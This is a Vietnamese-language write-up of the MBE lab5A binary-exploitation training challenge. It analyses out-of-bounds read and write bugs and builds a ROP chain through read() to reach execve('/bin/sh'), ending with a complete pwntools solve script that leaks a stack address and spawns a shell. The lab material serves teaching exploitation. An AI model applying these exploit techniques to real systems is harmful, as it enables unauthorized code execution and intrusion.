 MBE (Modern Binary Exploitation) là các bài lab khá quen thuộc đối với những người học binary exploit, thông qua các bài lab mình học được khá nhiều kiến thức mới mà mình bị overlooked lúc tìm hiểu web exploitation. Đây là một writeup về lab5A, bài cuối về chủ đề ROP của MBE.

## Source code analysis

Source bài này sẽ khá giống với bài lab3A trong phần shellcode, một storage service cho phép chứa 1 số vào 1 array về đọc số đó ra. tại hàm `read_number` ta có thể dễ dàng thấy được lỗi Out of Bound Reading
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/c186c6cc-325b-418d-abbe-1fb7aaa2698a)

Với lỗi này ta có thể lợi dụng để leak stack address (lab MBE từ section 5 trở xuống thì ASLR luôn tắt, tuy nhiên để làm bài này khó hơn thì mình đã bật ASLR lên). Tại hàm `store_number`, ta thấy có một phần check trước khi dữ liệu được ghi:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d9144843-1b28-45c2-8801-0596d2449cbe)

Giải thích về 3 phần check:
- `index % 3 == 0` phần check này là để gây khó khăn hơn khi craft ROP gadget, ta sẽ không thể ghi được ở 3 địa chỉ liền kề nhau
- `index > STORAGE_SIZE` có vẻ là để tránh việc Out of Bound Writing, tuy nhiên để ý kỹ thì đáng lẽ nó phải là `index > STORAGE_SIZE-1` vì index bắt đầu từ `0`, do đó ta có 4 byte OOW, kinda useless vì nó chẳng thể chạm đến return address.
- `(input >> 24) == 0xb7` intend của check này là ngăn việc ta có thể ret2libc, nhưng thật ra nó statically linked nên cũng không có libc và ở bài này mình cũng sẽ không dụng đến libc

Vậy nếu ta chỉ có thể ghi đè 4 byte ở sau buffer thì có thể làm được gì nhỉ... nếu để ý lại index nhập vào sẽ là kiểu `int` vậy nếu ta để index âm thì bằng các canh chỉnh chính xác ta có thể store ở bất cứ địa chỉ nào trong memory, OOW thành công.
Sau khi căn chỉnh ta sẽ biết ra được index `-1073741711` sẽ là return address của `main`, lúc đó sẽ trỏ về `__libc_start_main`, vậy giờ ta sẽ ROP như thế nào cho hợp lý... 

Với mình thì mình sẽ chọn 1 ROP gadget như sau, vì việc ROP gadget với 3 address không liên tiếp quá dark, nên mình muốn tìm cách để có thể ghi ROP gadget một cách tự do, idea sẽ là return về `read`.
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/7d5f475b-e02c-479f-b8c4-963517f81beb)

Return về code segment, sẽ bypass qua phần check thứ 3, tuy nhiên thì index `-1073741711 % 3 == 2` và `-1073741711 % 3 == 1`, index tiếp theo là `-1073741709` chắc chắn chia hết cho 3, stack layout cho function `read` sẽ không hoàn thiện được. Cách giải quyết đơn giản, return về một hàm dummy nào đó và đưa `read` vào return address của hàm đó, stack layout:
```
----------------
0x00000001 => dummy_function
0x00000002 => read
0x00000003 => dummy_function's arg 1 (khong control duoc)
0x00000004 => read's arg 1
0x00000005 => read's arg 2 (address bat ki)
0x00000006 => read's arg 3 (khong control duoc) 
----------------
```

`read` nhận 3 tham số, lần lượt là fd, buffer và size, vấn đề tiếp theo là ta lại không control được arg thứ 3, chính là size read vào
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/e3763d94-e278-41f0-a6ce-7ae2100b2ee3)

Như ta thấy thì nếu tại return address là dummy function, thì argument `size` của `read` sẽ rơi vào địa chỉ `0xffffca30`, nghĩa là lúc này `read` sẽ đọc 0 byte, ta sẽ chẳng ghi đè được gì cả...

Nhưng sẽ ra sao nếu nơi mà argument 3 rơi vào là địa chỉ `0xffffca3c`
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/eff385ec-5aa9-4ed1-bb64-2f9df667b3c0)
Lúc này read sẽ đọc `0x80eb00c`, ta sẽ không cần nhiều đến thế nhưng chắc chắn nó sẽ giúp ta ghi đè được address bất kì. Vậy làm sao để ROP cho argument 3 rơi đúng vào ô nhớ đó? Mình sẽ cho return về một ROP pop stack 3 lần, sau đó return về `read` và ghi ROP vào return address của `read`, stack layout giả dụ:

```
----------------
0x00000001 => pop 3 thanh ghi
0x00000002 => ...
0x00000003 => ...
0x00000004 => ...
0x00000005 => read
0x00000006 => read's return address
0x00000007 => 0x0 (read from stdin)
0x00000008 => 0x00000006
0x00000008 => 0x80eb00c
----------------
```

ROP gadget để pop 3 stack:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/dbaf0569-93f5-4859-abee-213575a60a4b)

Vì trước đó thì mình có bật ASLR, nên ta sẽ cần leak địa chỉ của stack bất kì để tìm ra return address của `read`, cùng với đó là vì không có libc nên `/bin/sh` mình sẽ nèm vào phía dưới ROP chain, nên ta cũng cần tính toán offset để tìm ra địa chỉ của `/bin/sh` sau đó pop vào ebx

Solve script:
```
from pwn import *

def write_rop(data, loc, f=None):
    buf = b"store\n"
    buf += str(data).encode() + b"\n"
    buf += loc.encode() + b"\n"
    if f:
        f.write(buf)
    return buf

pop_eax = util.packing.p32(0x080bc4d6)
pop_ecx = util.packing.p32(0x080e6255)
pop_edx = util.packing.p32(0x080695a5)
pop_ebx = util.packing.p32(0x08058ed6)
syscall = util.packing.p32(0x0806fa7f)


bin_sh_string = {}
bin_sh_string["bin"] = util.packing.p32(0x6e69622f)
bin_sh_string["sh"] = util.packing.p32(0x68732f2f)

read = 0x806d85a

# pop 3 thanh ghi
# ...
# ...
# ...
# read
# <not controllable>
# 0x0
# address to write
# 0x80eb00c

pop_3_reg = 0x0806e7bb

proc = process("../lab5A")

proc.sendline(b"read")
proc.sendline(b"-1073741709") # leak stack address
leaked_stack = int(proc.recvline_contains(b"Number at data[-1073741709] is ")[-10:].decode())
stack_ret_addr = leaked_stack - 116
bin_sh_addr = util.packing.p32(stack_ret_addr + 40)

print("leaked stack: " + hex(leaked_stack))
print("return address: " + hex(stack_ret_addr))
print("/bin/sh will be at: " + hex(stack_ret_addr + 40))


rop_chain = pop_ecx
rop_chain += util.packing.p32(0)
rop_chain += pop_edx
rop_chain += util.packing.p32(0)
rop_chain += b"BBBB"
rop_chain += pop_ebx
rop_chain += bin_sh_addr
rop_chain += pop_eax
rop_chain += util.packing.p32(0xb)
rop_chain += syscall
rop_chain += bin_sh_string["bin"]
rop_chain += bin_sh_string["sh"]

proc.send_raw(write_rop(pop_3_reg, "-1073741711"))
proc.send_raw(write_rop(0xffffffff, "-1073741710")) # padding
proc.send_raw(write_rop(read, "-1073741707"))
proc.send_raw(write_rop(0x0, "-1073741705"))
proc.send_raw(write_rop(stack_ret_addr, "-1073741704"))
proc.sendline(b"quit")
proc.send_raw(rop_chain)
proc.sendline(b"/bin/sh")
proc.interactive()
```
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/385ec24f-0e4b-4e39-a71c-d693f8de1719)

